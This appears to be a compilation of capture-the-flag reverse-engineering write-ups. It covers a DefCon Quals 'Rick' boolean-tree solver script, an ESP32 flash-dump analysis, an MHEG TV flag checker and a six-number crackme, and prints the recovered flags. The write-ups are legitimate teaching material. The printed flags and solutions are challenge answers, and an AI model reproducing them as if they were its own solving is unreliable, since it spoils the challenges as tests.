      v2->switch_output = *(*v2->begin + 12LL) ^ 1;// NOT
      return;
    case 2u:                                    // AND
      v18 = v2->begin;
      v2->switch_output = 1;
      if ( v18 == i )
        return;
      while ( *(*v18 + 12LL) ) {                // if this becomes 0, then output is set to 0 ~> XOR!
        v18 += 8LL;
        if ( i == v18 )
          return;
      }
      goto SET_SWITCH_OUTPUT_TO_ZERO;
    case 3u:                                    // OR
      v19 = v2->begin;
      v2->switch_output = 0;
      if ( v19 == i )
        return;
      while ( !*(*v19 + 12LL) ) {               // stop when you hit the first one
        v19 += 8LL;
        if ( i == v19 )
          return;
      }
SET_SWITCH_OUTPUT_TO_ONE:
      v2->switch_output = 1;
      return;
    case 4u:                                    // odd number of switches ~> XOR
      v20 = v2->begin;
      v2->switch_output = 0;
      if ( v20 != i ) {
        do {
          if ( *(*v20 + 12LL) )
            v2->switch_output ^= 1u;
          v20 += 8LL;
        } while ( i != v20 );
      }
      return;
    case 5u:                                    // NAND
      v21 = v2->begin;
      v2->switch_output = 1;
      if ( v21 == i )
        goto POP_SWITCH_OUTPUT_VAL_N_RETN;
      while ( *(*v21 + 12LL) ) {
        v21 += 8LL;
        if ( i == v21 )
          goto POP_SWITCH_OUTPUT_VAL_N_RETN;
      }
      goto SET_TO_ONE;
    case 6u:                                    // NOR
      v22 = v2->begin;
      v2->switch_output = 0;
      if ( v22 == i )
        goto SET_TO_ONE;
      while ( !*(*v22 + 12LL) ) {
        v22 += 8LL;
        if ( i == v22 ) {
SET_TO_ONE:
          curr_switch_output = 1;
          break;
        }
      }
POP_SWITCH_OUTPUT_VAL_N_RETN:
      v2->switch_output = curr_switch_output;
      return;
    case 7u:
      v23 = v2->begin;
      curr = *v23;
      next = (v23 + 1);
      next_output = *(curr + 12);               // 0 or 1
      v2->switch_output = 1;
      if ( next == i )                          // i == end
        return;
      break;
    case 8u:
CASE_8:                                         // When 1st and last children are 0
      v7 = v2->begin;
      if ( *(*v7 + 12LL) )                      // if 1st child is nonzero ~> output = 0
        goto SET_SWITCH_OUTPUT_TO_ZERO;
      // if we reach here, 1st child is 0.
      if ( (i - v7) != 8 )                      // if we have >1 children
        v2->switch_output = (*(i - 1))->switch_output == 0;// the last child must be 0
      return;
    case 9u:
CASE_9:                                         // When 1st and last children are 1
      v5 = v2->begin;
      if ( !*(*v5 + 12LL) )                     // if 1st child is zero ~> output = 0
        goto SET_SWITCH_OUTPUT_TO_ZERO;
      if ( (i - v5) != 8 )
        v2->switch_output = (*(i - 1))->switch_output != 0;
      return;
    default:
      u_error_updateState_0();
  }
  while ( 1 ) {
    curr_output = next_output;
    next_output = (*next)->switch_output;
    if ( next_output == curr_output )
      break;                                    // if equal return 0 ~> they must be alternating (1-0-1-0-... or 0-1-0-1...)
    if ( i == ++next )
      return;
  }
SET_SWITCH_OUTPUT_TO_ZERO:
  v2->switch_output = 0;
}
```

**This function has the core logic of the whole challenge**. Based on the node operation (between **0** and **9**) function sets `v2->switch_output`. Let's take for example case **2**. In order to set `v2->switch_output` to **1**, then **all children nodes must be set (1)**. Otherwise, `v2->switch_output` becomes zero. That is exactly what an `AND` logic gate does. However, a child node may have more nodes underneath, so the value of the child node may not be known. That's why we have to work **recursively** and call `u_recursive_func_1` at `55555555ACB0h`:

```
// positive sp value has been detected, the output may be wrong!
void __fastcall u_recursive_func_1(switch_obj *a1) {
  /* ... */
  for ( i = a1->begin; a1->end != i; ++i ) {
    v3 = *i;
    u_recursive_func_1(v3); // recursively solve the subtree
  }
  switch ( a1->node_operation ) {
    case 0u:
      return;
    case 1u:
      a1->switch_output = *(*a1->begin + 12LL) ^ 1;
      return;
    case 2u:
      prev_key_down = a1->begin;
      a1->switch_output = 1;
      if ( prev_key_down == i )
        return;
      while ( *(*prev_key_down + 12LL) ) {
        prev_key_down += 8LL;
        if ( i == prev_key_down )
          return;
      }
      goto LABEL_14;
    case 3u:
      /*
       * Logic is exactly the same as u_toggle_switch
       */
    default:
      u_error_updateState(a1);
  }
  /* ... */
LABEL_14:
  a1->switch_output = 0;
}
```

The leaves of the tree are the switches which we control. The walls are the intermediate nodes. If the `a1->switch_output` for the root node (i.e., the topmost wall) is set, then the door opens. Below are the logic gates implemented for each node operation:

```
  0: None
  1: NOT
  2: AND
  3: OR
  4: XOR
  5: NAND
  6: NOR
  7: Alternate 1 and 0
  8: First and last are 0
  9: First and last are 1

```

After the tree is updated (i.e., the `a1->switch_output` for every node), we go back to `u_callback_timer_func` which calls `u_render_game_state` at `55555555A690h`:

```
void __fastcall u_render_game_state() {
  /* ... */
  if ( some_stl_ptr ) {
    v3 = u_rb_tree_clone2(&a1, some_stl_ptr, &a1._M_parent);
    v4 = v3;
    /* ... */
    if ( leftmost_node != &a1._M_parent ) {
      v9 = &v2->_M_parent;
      do {
        /* ... */
        M_parent = v12->dword_cnt;
        switch_output = *(M_parent + 12);
        // Check value of switch/wall output
        if ( *(M_parent + 1) ) {
          wall_height = node_counter->wall_height;
          if ( !switch_output ) {
            if ( *&wall_height <= -30.0 ) {
              u_move_object_wall_or_door(node_counter);// wall is already down
            } else {
              // When the wall goes down
              *&v29 = *&wall_height - 5.0;      // decrement wall height
              node_counter->wall_height = v29;
              if ( *&v29 < -30.0 )
                node_counter->wall_height = 3253731328;
              u_move_object_wall_or_door(node_counter);
              v35 = 0;
            }
            goto LABEL_52;
          }
          if ( *&wall_height < 50.0 ) {
            // When the wall goes up
            *&new_wall_height = *&wall_height + 5.0;
            node_counter->wall_height = new_wall_height;// increment wall height
            if ( *&new_wall_height > 50.0 )
              node_counter->wall_height = 1112014848;
            u_move_object_wall_or_door(node_counter);
            v35 = 0;
          } else {
            u_move_object_wall_or_door(node_counter);// wall is already up
          }
        } else {
          door_pos = node_counter->door_pos;
          if ( !switch_output ) {
            if ( *&door_pos > -45.0 ) {
              // close door (1 step)
              *&new_door_pos = *&door_pos - 1.0;
              v35 = 0;
              if ( *&new_door_pos < -45.0 )
                node_counter->door_pos = 0xC2340000;
              else
                node_counter->door_pos = new_door_pos;
            }
LABEL_52:
            v39 = v41;
            strcpy(v41, "0x111111");
            v40 = 8LL;
            u_some_string_ctor(node_counter, &v39);
            goto LABEL_28;
          }
          if ( *&door_pos < 45.0 ) {
            // open door (1 step)
            *&new_door_pos_ = *&door_pos + 1.0;
            v35 = 0;
            if ( *&new_door_pos_ > 45.0 )
              node_counter->door_pos = 0x42340000;
            else
              node_counter->door_pos = new_door_pos_;
          }
        }
        v39 = v41;
        strcpy(v41, "0xffffff");
        v40 = 8LL;
        u_some_string_ctor(node_counter, &v39);
LABEL_28:
        if ( v39 != v41 )
          operator delete(v39);
        leftmost_node = std::_Rb_tree_increment(leftmost_node);
      } while ( leftmost_node != &a1._M_parent );
    }
    game_state = glo_game_state;
    v2 = glo_game_state->field_28;
  }
  /* ... */
  if ( v24 >= 170.0 )
  {
    u_move_object_wall_or_door(struct_1);
    sub_55555556B3C0(v23, 0.0, 0.0, 0.0);
LABEL_63:
    if ( v35 )
      glo_game_state->field_38 = 0;
    goto LABEL_65;
  }
  *&v25 = v24 + 1.0;
  struct_1->field_58 = v25;
  if ( *&v25 > 170.0 )
    struct_1->field_58 = 0x432A0000;
  u_move_object_wall_or_door(struct_1);
  sub_55555556B3C0(v23, 0.0, 0.0, 0.0);
  /* ... */
}
```

By setting breakpoints to this function, we can see exactly which objects are moving in the game. If you notice, the height of the wall does not change; it only moves up and now. If you look at the picture below, you can see that the wall is initially underneath the floor and moves up when it gets activated:


---

**Finding a Valid Tree Solution**

At this point everything is clear: All we have to do is to find which switches to activate in order to make the topmost wall move up. All we need is just one valid assignment of the switches (for example to make an `OR` node return **1** we make every child node return **1**; there are many other valid assignments e.g., first child node returns **1** and all nodes returns **0** but any valid assignment is fine). However there is a caveat. Some nodes may need to return **0** (for example if the topmost node is a `NOT` node with a single child, then the child node must return **0**), so we make the node output a variable. Based on that, the following functions find a valid switch assignment:

```python
#!/usr/bin/env python3
# ----------------------------------------------------------------------------------------
# DefCon Quals 2021 - Rick (RE 200)
# ----------------------------------------------------------------------------------------
import socket
import struct
import sys
import networkx
import matplotlib.pyplot as plt
from networkx.drawing.nx_agraph import graphviz_layout
 

# ----------------------------------------------------------------------------------------
def recv_until(string):
    """Keep receiving data from `sock`, until you encounter a given `string`."""
    recv = b''
    while string not in recv:
        recv += sock.recv(16384)
    return recv

# ----------------------------------------------------------------------------------------
def array_to_tree(arr):
    """Convert a pre-order tree array onto a networkx tree."""
    tree = networkx.DiGraph()
    array_to_tree_recursive(arr, tree, parent=None, i=0, depth=0)
    return tree

def array_to_tree_recursive(arr, tree, parent, i=0, depth=0):
    """Convert a pre-order tree array onto a networkx tree (recursively)."""
    operation  = arr[i + 0] % 10
    n_children = arr[i + 1] & 0xFF if arr[i] % 10 else -1

    # Add node attributes (operation and number of children).
    tree.add_node(f'{arr[i]:08X}', op=operation, n=n_children)

    if parent:
        tree.add_edge(parent, f'{arr[i]:08X}')  # Link to the parent (if exists).

    if arr[i] % 10 == 0:
        return 1  # Leaf node.

    eat = 2  # We already consumed 2 elements.
    for j in range(n_children):
        eat += array_to_tree_recursive(arr, tree, f'{arr[i]:08X}', i + eat, depth + 1)

    return eat
    

# ----------------------------------------------------------------------------------------
def gen_correct_value(op, expected_result, idx=0):
    """Generate a correct value for a subtree given the `op` and `expected_result`."""
    # There can be many solutions. Just generate a valid one.
    return {
        0: None,
        # NOT
        #   If expected result is 1, then return 0. Otherwise return 1
        #   (NOTE: NOT nodes always have 1 child).
        1: 0 if expected_result == 1 else 1,
        # AND
        #   If expected result is 1, then make everything 1. Otherwise make everything 0.
        2: 1 if expected_result == 1 else 0,
        # OR
        #   If expected result is 1, then make everything 1. Otherwise make everything 0.
        3: 1 if expected_result == 1 else 0,
        # XOR
        #   If expected result is 1 set the first to 1 and everything else to 0. That
        #   way the XOR will always be 1 no matter how many nodes we have.
        #   If expected result is 0, simply set everything to 0.
        4: (1 if idx == 0 else 0) if expected_result == 1 else 0,
        # NAND
        #   If expected result is 1, then make everything 0. Otherwise make everything 1.
        5: 0 if expected_result == 1 else 1,
        # NOR
        #   If expected result is 1, then make everything 0. Otherwise make everything 1.
        6: 0 if expected_result == 1 else 1,
        # Alternate 1 and 0
        #   If expected result is 1, then set to 1 for even indices and 0 for odd.
        #   Otherwise, set everything to 0.
        7: (1 if idx % 2 == 0 else 0) if expected_result == 1 else 0,
        # First and last are 0
        #   If expected result is 1, then set everything to 0.
        #   Otherwise set everything to 1 (we keep things simple).
        8: 0 if expected_result == 1 else 1,
        # First and last are 1
        #   If expected result is 1, then set everything to 1.
        #   Otherwise set everything to 0.
        9: 1 if expected_result == 1 else 0
    }[op]

# ----------------------------------------------------------------------------------------
def find_tree_sol(tree, curr_node, expected_result=1, depth=1, dbg=False):
    """Find a leaf assignment that makes a subtree return `expected_result`."""
    operation  = networkx.get_node_attributes(tree, 'op')[curr_node]
    n_children = networkx.get_node_attributes(tree, 'n' )[curr_node]
    ops = ['None', 'NOT', 'AND', 'OR', 'XOR', 'NAND', 'NOR', 'ALT', 'FL0', 'FL1']

    if dbg:
        print('{0}Curr node: {1}, op:{2}, #{3}, exp:{4}'.format(
                ' '*depth*4, curr_node, ops[operation], n_children, expected_result))

    sol = ''
    for i, n in enumerate(tree[curr_node]):
        nxt_op = networkx.get_node_attributes(tree, 'op')[n]

        if dbg:
            print('{0}  {1}: i:{2} Next:{3}'.format(' '*depth*4, ops[nxt_op], i, nxt_op))
        
        val = gen_correct_value(operation, expected_result, i)

        if nxt_op == 0:
            # We have a leaf. Make correct value a string.
            sol += f'{val}'          
        else:
            # Recursively make the subtree return the expected value.
            sol += find_tree_sol(tree, n, val, depth + 1, dbg)  

    return sol

# ----------------------------------------------------------------------------------------
if __name__ == "__main__":
    print('[+] Rick crack started.')

    # Sample arrays for testing.
    arr1 = [
        0x99C9A710, 0x44E2AC02, 0xF00C81D9, 0xC1217502, 0x2C7C9F44, 0xFD499FE6,
        0xB09214AB, 0xF0608702, 0x34C8AE04, 0xA5D62A18
    ]

    arr2 = [
        0x78CFFA13, 0xE56C1B01, 0x90052A8C, 0x14291803, 0x0CFCCBC6, 0xE3A85DD4,
        0xEDA2BE38
    ]

    arr3 = [
        0x9FFE254A, 0xECA5F004, 0x5934A94B, 0x89B46302, 0x39038475, 0x77E6AE02,
        0xE2DADEFE, 0xEC47C0E2, 0x1E89B1C2, 0x4A485203, 0xCAF1A156, 0x38A85588,
        0x8D4DA3F4, 0xAD4BF835, 0x7E8F2504, 0x53435D7E, 0x88134703, 0x8DC75492,
        0x49C37140, 0xE1901050, 0xD77D838A, 0x9DACB003, 0x0ED56B06, 0x20C21DB4,
        0x7AC5CDF6, 0xE4B0CD23, 0x01710304, 0xAC6E2470, 0xAC009AC2, 0x5104E182,
        0xD0E6A034, 0x84CE1C95, 0xEDA59C04, 0x2D2543BA, 0x907A267E, 0x23969948,
        0xC395C9FA, 0xEA81F063, 0x91AE3D04, 0x9179B2B7, 0x3BADAE03, 0xB758E852,
        0x061EB576, 0x8500FA16, 0x18A62F70, 0x7B8EF403, 0xCFD05EBA, 0x4D67EAEC,
        0x6FC91426, 0xF32D3E1F, 0x536D0101, 0x8B3AA350, 0xA3D47BE9, 0xACD07B01, 
        0x989FD006, 0x03E9719F, 0x6D121704, 0x171AAFA5, 0x185DCB04, 0xF8CF529E,
        0xF01FD0BA, 0x9B58E30A, 0x33FA31FA, 0x230D2AA2, 0xE9697102, 0xD85284AA,
        0xEC698042, 0x1ACCD8DB, 0x70A59704, 0xC8E88C12, 0x570C6654, 0x8A034226,
        0x5AC3208A, 0xE5B8DFDB, 0x0896FE04, 0x66098F1A, 0xCE19E9B0, 0xF9A30436, 
        0x32FE1FA0
    ]    

    tree = array_to_tree(arr1)
    # Run as:  dot -Tpng test.dot >test.png
    networkx.nx_agraph.write_dot(tree, 'test.dot')

    for node in networkx.dfs_tree(tree).nodes():
        op = networkx.get_node_attributes(tree, 'op')[node]
        n  = networkx.get_node_attributes(tree, 'n')[node]
        print(f'{node}, op:{op}, #{n}') 

    # Find the root node.
    root = [n for (n, d) in tree.in_degree() if d == 0]
    assert len(root) == 1
    print(f'[+] Root node: {root}')

    sol = find_tree_sol(tree, root[0], dbg=True)
    print('[+] Tree solution: {sol}')

    print('[+] Starting real work .....')
    print('[!] WARNING: YOU MAY HAVE TO RUN ME MULTIPLE TIMES TO GET THE FLAG!')
    
    #sock = socket.create_connection(('192.168.9.2', 4343)) # local
    sock = socket.create_connection(('rick.challenges.ooo', 4343)) # remote

    assert sock.recv(4) == b'RICK'

    dwords = sock.recv(4)
    for rnd in range(1, 128):
        print(f'[+] ============================== Round #{rnd} ==============================')
        buflen = struct.unpack('<L', dwords)[0]

        #buf    = sock.recv(buflen * 4)
        buf = b''  
        while len(buf) < buflen*4:  # A single recv, may not retrieve everything.
          buf += sock.recv(4096)
        
        arr = [struct.unpack('<L', buf[4*z:4*z+4])[0] for z in range(buflen)]

        tree = array_to_tree(arr)

        root = [n for (n, d) in tree.in_degree() if d == 0]
        assert len(root) == 1
        print(f'[+] Array size: {len(arr)}. Tree nodes: {len(tree.nodes())}. Root node: {root}')

        if len(tree.nodes()) > 7000:
            print('[!] WARNING. Tree is tooooooo big :\\')
            print('[!] It will probably timeout on server. Press Ctl+C and retry.')

        # TODO: This is too slow for tree w/ >7000 nodes.
        # Need to optimize it, or run it multiple times until you hit a relatively
        # small tree.
        sol = find_tree_sol(tree, root[0], dbg=rnd < 15)
        print(f'[+] Valid solution (len: #{len(sol)}): {sol}')

        # Send solution back to the server.
        sol = sol.encode('utf-8')
        enc_sol = bytes([a ^ b for a, b in zip(sol, b'RICK'*len(sol))])
        sock.send(enc_sol + b"\n")

        # Check response to verify if solution was correct.
        dwords = sock.recv(4)
        if dwords in [b'KO', b'KOKO']:
            raise Exception(f'[+] Incorrect solution (or timeout) :(')
        elif dwords == b'RICK':
            print(f'[+] FLAG FOUND!')
            flaglen = sock.recv(4)
            flaglen = struct.unpack('<L', flaglen)[0]
            print(f'[+] Flag len: {flaglen}')
            flag = sock.recv(flaglen)
            flag = bytes([a ^ b for a, b in zip(flag, b'RICK'*flaglen)])
            print(f'[+] Flag: {flag}')
            break

    sock.close()
```

After we pass **100** levels, we get the flag.

For more details, please refer to the [rick_crack.py](https://github.com/ispoleet/ctf-writeups/blob/master/defcon_ctf_quals_2021/rick/rick_crack.py) script.

So, the flag is: `OOO{never_gooonna_give_yooou_up_but_Im_gooonna_give_yooou_this_flag}`

### **Problem - 44 : ( esp_32 )**

> We found really funny device. It was broken from the beginning, trust us! Can you help with recovering the truth?
> 

Attached, we find `flashdump.bin` which looks like a flash dump.

[https://drive.google.com/file/d/1Vzewo6Q3u1LsgBS3ogXXBYTITecuwdN5/view?usp=drive_link](https://drive.google.com/file/d/1Vzewo6Q3u1LsgBS3ogXXBYTITecuwdN5/view?usp=drive_link)

Solution :

As always, let's start with `file` and `binwalk`.

```coffeescript
$ file baby_flashdump.bin
baby_flashdump.bin: data

$ binwalk flashdump.bin

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
65862         0x10146         HTML document header
66286         0x102EE         HTML document footer
97467         0x17CBB         Neighborly text, "neighbor entry"130884        0x1FF44         SHA256 hash constants, little endian
159021        0x26D2D         Intel x86or x64 microcode, sig 0x014d061e, pf_mask 0x660660, 1D00-14-01, rev 0x-1000000, size 1159961        0x270D9         Intel x86or x64 microcode, sig 0x014d061e, pf_mask 0x660660, 1D00-14-01, rev 0x-1000000, size 1
```

Mmh... not much. There are some HTML pages in the flash. Some strings in the file makes us think this is a dump of an Espressif ESP32 chip.

As binwalk definitions are not as complete as file/libmagic, let's copy some definitions from [upstream](https://github.com/file/file/blob/c64eed8b1eccd1721ddbe17d53441810dd5bb44c/magic/Magdir/firmware#L71). We put these defnitions in [`esp32.magic`](https://blog.nanax.fr/assets/images/hardware-longrange2/esp32.magic) and call binwalk again:

```objectivec
$ binwalk baby_flashdump.bin -m esp32.magic

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
32768         0x8000          ESP-IDF partition table entry, label: "nvs", NVS data, offset: 0x9000, size: 0x500032800         0x8020          ESP-IDF partition table entry, label: "otadata", OTA selection data, offset: 0xE000, size: 0x200032832         0x8040          ESP-IDF partition table entry, label: "app0", OTA_0 app, offset: 0x10000, size: 0x14000032864         0x8060          ESP-IDF partition table entry, label: "app1", OTA_1 app, offset: 0x150000, size: 0x14000032896         0x8080          ESP-IDF partition table entry, label: "spiffs", SPIFFS partition, offset: 0x290000, size: 0x16000032928         0x80A0          ESP-IDF partition table entry, label: "coredump", coredump data, offset: 0x3F0000, size: 0x1000065536         0x10000         ESP-IDF application imagefor ESP32, project name: "arduino-lib-builder", version esp-idf: v4.4.5 ac5d805d0e, compiled on Jun 12 2023 16:41:45, IDF version: v4.4.5, entry address: 0x40082BA0
```

Wow! much better. So it's a firmware, using ESP-IDF inside of the Arduino framework. We note down the entry address: `0x40082BA0`.

I found a nice [blog post](https://olof-astrand.medium.com/reverse-engineering-of-esp32-flash-dumps-with-ghidra-or-ida-pro-8c7c58871e68) on reversing ESP32 flash dumps, which recommends a tool called [`esp32-image-parser`](https://github.com/tenable/esp32_image_parser). With some patches from the open PRs applied, we can dump the sections of the flashdump:

```
$ ./esp32_image_parser.py show_partitions ../flashdump.bin
reading partition table...
entry 0:
  label      : nvs
  offset     : 0x9000
  length     : 20480
  type       : 1 [DATA]
  sub type   : 2 [NVS]

entry 1:
  label      : otadata
  offset     : 0xe000
  length     : 8192
  type       : 1 [DATA]
  sub type   : 0 [OTA]

entry 2:
  label      : app0
  offset     : 0x10000
  length     : 1310720
  type       : 0 [APP]
  sub type   : 16 [ota_0]

entry 3:
  label      : app1
  offset     : 0x150000
  length     : 1310720
  type       : 0 [APP]
  sub type   : 17 [ota_1]

entry 4:
  label      : spiffs
  offset     : 0x290000
  length     : 1441792
  type       : 1 [DATA]
  sub type   : 130 [SPIFFS]

entry 5:
  label      : coredump
  offset     : 0x3f0000
  length     : 65536
  type       : 1 [DATA]
  sub type   : 3 [COREDUMP]

MD5sum:
972dae2ff872a0142d60bad124c0666b
Done
```

As per the blog post, we can now transform the application sections (only `app0` turned out to matter in our case) to ELF files:

```
./esp32_image_parser.py create_elf ../flashdump.bin -partition app0 -output app0.elf
```

Now we have an ELF file that we can analyze with Ghidra.

**Analyzing the Application**

Looking through the strings used in the file, we can quickly find that there's some HTML for displaying the flag. Therefore, this should be a web server of sorts.


Looking at where the stuff gets written to, we can quickly find the part that should write the flag:


Analyzing where the values come from, we can find that the flag is computed by XORing two values from the data section into `something_in_flag`:

![Function computing the flag]*https://github.com/msanft/writeups/raw/main/2024/justctf-teaser/misc-baby-soc-3.png?raw=true)

Performing this XOR in Python gives us the flag:

```
justCTF{you_x0r_me_r1ght_r0und_b4by}
```

### **Problem - 45 :**

My favorite TV channel has recently become more interactive…

[https://drive.google.com/file/d/10TA2Nz7o9FCrantl9nLLLtmii9zkNF3p/view?usp=drive_link](https://drive.google.com/file/d/10TA2Nz7o9FCrantl9nLLLtmii9zkNF3p/view?usp=drive_link)

Solution :

We were given an `.asn` file. After some quick googling (before hint released) we can run theses file with [MhegPlus Player](https://sourceforge.net/projects/mhegplus)

To run it use this command

```
$ java -Dmheg-source-root=src/ -Ddfs-root-dir=src/ -Dfile-mapping.//a=src/a -Dmheg.profile=uk.dtt -jar MhegPlus.MhegPlayer-1.0.1a.jar
```

Then click `populate carousel from disk`. It has 3 modules which are clock, weather and extras. Choosing extras will prompt us a flag checker, and the main logic for flag checker are lies on extras.asn

After some reversing we manage to reconstruct the logic to a python code.

```
correct = "11011100010101001000100011001000110010000110100011101010011110110110001001001111001000010110000101110011101011011101011001001011110100011000111100101110000100101001111001111011110111101001110100101100110101111101101110101111001000111100111000000100101001101000001101010111101010010100000101010001010010010100101111011101111100110010101000100000001101000011101001011111101001100110111001000000110110101010111100100101111110111010011110001000011011010010110000000011111100001100"
actual = "11010011010000101111101110101001011001101100101000111101101110101101010000010111101110000110100001000111101100000001110010010000000001011111001101111110011110111100111000111111101000110110010111100111110001111010110100110111000001001111010001100110111000101010010001000110010001100100001101000111010100111101101100010010011110010000101100001011100111010110111010110010010111101000110001111001011100001001010011110011110111101111010011101001011001101011111011011101011110010001"
list_bin = "0000000000000100000100000011000010000001010000110000011100010000001001000101000010110001100000110100011100001111001000000100010010010001001100101000010101001011000101110011000001100100110100011011001110000111010011110001111101000000100001010001001000110100100010010101001100100111010100001010010101010010101101011000101101010111001011110110000011000101100100110011011010001101010110110011011101110000111001011101001110110111100011110101111100111111100000010000011000010100001110001001000101100011010001111001000100100110010101001011"
list_char = "1234567890qwertyuiopasdfghjkl{zxcvbnm_!@#$%^&*+=3DQWERTYUIOPASDFGHJKL}ZXCVBNM-"
inp = "j"

dict = {}
for i in range(len(list_char)):
	tmp = list_char[i]
	index = list_char.index(tmp)
	index += 1
	print(list_char[i], index)
	val1 = ((index - 1) * 7) + 1
	val2 = index * 7
	dict[list_bin[val1-1:val2]] = list_char[i]

print(dict)

assert len(correct) == len(actual)
nice = ""
for i in range(len(correct)):
	if actual[i] == "0":
		nice += correct[i]
	else:
		if correct[i] == "1":
			nice += "0"
		else:
			nice += "1"

print(len(dict))
print(nice)

for i in range(0, len(nice), 7):
	target = nice[i:i+7]
	try:
		print(dict[target])
	except Exception as e:
		print("unknown", target)

```

But its still not correct, after some debugging we found that var65 are rotated based on the length of the input that entered.

Looking back into the code we knew that it xor the input with var65. Now we just need to bruteforce the correct flag len.

```
b = '00011001101110001010100100010001100100011001000011010001110101001111011011000100100111100100001011000010111001110101101110101100100101111010001100011110010111000010010100111100111101111011110100111010010110011010111110110111010111100100011110011100000010010100110100000110101011110101001010000010101000101001001010010111101110111110011001010100010000000110100001110100101111110100110011011100100000011011010101011110010010111111011101001111000100001101101001011000000001111110'
c = '11010011010000101111101110101001011001101100101000111101101110101101010000010111101110000110100001000111101100000001110010010000000001011111001101111110011110111100111000111111101000110110010111100111110001111010110100110111000001001111010001100110111000101010010001000110010001100100001101000111010100111101101100010010011110010000101100001011100111010110111010110010010111101000110001111001011100001001010011110011110111101111010011101001011001101011111011011101011110010001'

chars = '1234567890qwertyuiopasdfghjkl{zxcvbnm_!@#$%^&*+=3DQWERTYUIOPASDFGHJKL}ZXCVBNM-'

def split(s, n):
    return [s[i:i+n] for i in range(0, len(s), n)]

def rotate(l, n):
    return l[n:] + l[:n]

brr = [int(x, 2) for x in split(b, 7)]
crr = [int(x, 2) for x in split(c, 7)]

for i in range(len(brr)):
    rotated = rotate(brr, i)
    xrr = [i^j for i, j in zip(rotated, crr)]

    print(i, xrr)

```

The correct flag len is 34, now just transform it to with the chars index.

```
idx = [26, 16, 21, 14, 70, 52, 61, 29, 9, 28, 22, 37, 52, 71, 37, 32, 3, 35, 37, 34, 2, 37, 55, 35, 52, 12, 51, 3, 32, 14, 55, 33, 2, 67, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0]

for i in idx:
    if i > 78 / 2:
        i += 2
    print(chars[i], end='')

```

> justCTF{0ld_TV_c4n_b3_InTeR4ctIv3}
> 

### **Problem - 46 :**

*All you have to do is find six numbers. How hard can that be?*

[https://drive.google.com/file/d/1W4tBGGJzRoLYu7_2ybAL9dCervtypZOu/view?usp=drive_link](https://drive.google.com/file/d/1W4tBGGJzRoLYu7_2ybAL9dCervtypZOu/view?usp=drive_link)

Solution :

**Disassembly (BinaryNinja/ghidra)**

[https://dogbolt.org/?id=8d09d83e-8514-464b-8722-515ca0f11d91](https://dogbolt.org/?id=8d09d83e-8514-464b-8722-515ca0f11d91)

Based on the `entry()`, we know the program starts with the `FUN_004011d6()/sub_4011d6()`, which asks for six numbers, each is 9-digit long.

After that, there is a check method called `FUN_0040137b()/sub_40137b()`, which gets the numbers and does a bunch of examinations on them.

First, it checks if they are in the correct range.

```
if (
    (param_1 < 0x5f5e101) || (param_2 < 0x5f5e101) ||
    (param_3 < 0x5f5e101) || (param_4 < 0x5f5e101) ||
    (param_5 < 0x5f5e101) || (param_6 < 0x5f5e101)
) {
    uVar1 = 0;
}
```

*Note: 0x5f5e101 = 100000001*

```
if (
    (param_1 < 1000000000) && (param_2 < 1000000000) &&
    (param_3 < 1000000000) && (param_4 < 1000000000) &&
    (param_5 < 1000000000) && (param_6 < 1000000000)
) {
    uVar1 = FUN_004016d8(param_1,param_2);
    uVar2 = FUN_0040163d(uVar1,param_3);
    uVar3 = FUN_0040163d(param_1,param_2);
    uVar1 = FUN_004016fe(2,param_2);
    uVar4 = FUN_004016fe(3,param_1);
    uVar5 = FUN_004016d8(uVar4,uVar1);
    uVar6 = FUN_0040174a(param_1,param_4);
    uVar1 = FUN_0040163d(param_3,param_1);
    uVar7 = FUN_004017a9(param_2,uVar1);
    uVar11 = FUN_0040163d(param_2,param_4);
    uVar1 = FUN_0040163d(param_4,param_6);
    uVar8 = FUN_0040174a(param_3,uVar1);
    uVar9 = FUN_004016d8(param_5,param_6);
    uVar10 = FUN_0040163d(param_5,param_6);
    if (
        (uVar2 % 0x10ae961 == 0x3f29b9) &&
        (uVar3 % 0x1093a1d == 0x8bdcd2) &&
        (uVar5 % uVar6 == 0x212c944d) &&
        (uVar7 % 0x6e22 == 0x31be) &&
        (uVar11 % param_1 == 0x2038c43c) &&
        (uVar8 % 0x1ce628 == 0x1386e2) &&
        (uVar9 % 0x1172502 == 0x103cf4f) &&
        (uVar10 % 0x2e16f83 == 0x16ab0d7)
    ) {
        uVar1 = 1;
    }
}
```

After that, there are lots of (5*) functions we have to analyze, what they do.

Let's see them one by one.

The second one is called `FUN_0040163d()/sub_40163d()`, where BinaryNinja works a bit better, so I changed to that.

```
int64_t sub_40163d(uint32_t arg1, uint32_t arg2) __pure
{
    uint32_t var_2c = arg1;
    uint32_t var_30 = arg2;
    int64_t var_10 = 0;
    int32_t var_20 = 0;
    int32_t var_1c = 0;
    while (!((var_2c == 0 && var_30 == 0)))
    {
        int32_t rax_2 = (var_2c & 1);
        int32_t rax_4 = (var_30 & 1);
        var_2c = (var_2c >> 1);
        var_30 = (var_30 >> 1);
        var_10 = (var_10 + (((rax_2 ^ rax_4) ^ var_20) << var_1c));
        var_20 = ((rax_4 & var_20) | ((rax_2 & rax_4) | (rax_2 & var_20)));
        var_1c = (var_1c + 1);
    }
    return (var_10 + (var_20 << var_1c));
}
```

My first thought was “Holly Cow, what am I looking at?“. I admit, I couldn’t figure it out, so I rewrote it in a small python script and tested it with different inputs.

```
def sub_40163d(arg1, arg2):
    var_2c = arg1
    var_30 = arg2
    var_10 = 0
    var_20 = 0
    var_1c = 0
    while not (var_2c == 0 and var_30 == 0):
        print("var_2c != 0 || var_30 != 0")
        rax_2 = (var_2c & 1)
        print("rax_2 = ", rax_2)
        rax_4 = (var_30 & 1)
        print("rax_4 = ", rax_4)
        var_2c = (var_2c >> 1)
        print("var_2c = ", rax_4)
        var_30 = (var_30 >> 1)
        var_10 = (var_10 + (((rax_2 ^ rax_4) ^ var_20) << var_1c))
        var_20 = ((rax_4 & var_20) | ((rax_2 & rax_4) | (rax_2 & var_20)))
        var_1c = (var_1c + 1)

    return var_10 + (var_20 << var_1c)

for i in range(0, 10):
    for j in range(0, 10):
        print("sub_40163d(", i, ", ", j, ") => ", sub_40163d(i, j))
```

It turned out it is just an overcomplicated add method, so I continued with the first method called `FUN_004016d8()/sub_4016d8()`, where basically just calling the second one with a negative second parameter. So it is a negative add alias subtraction.

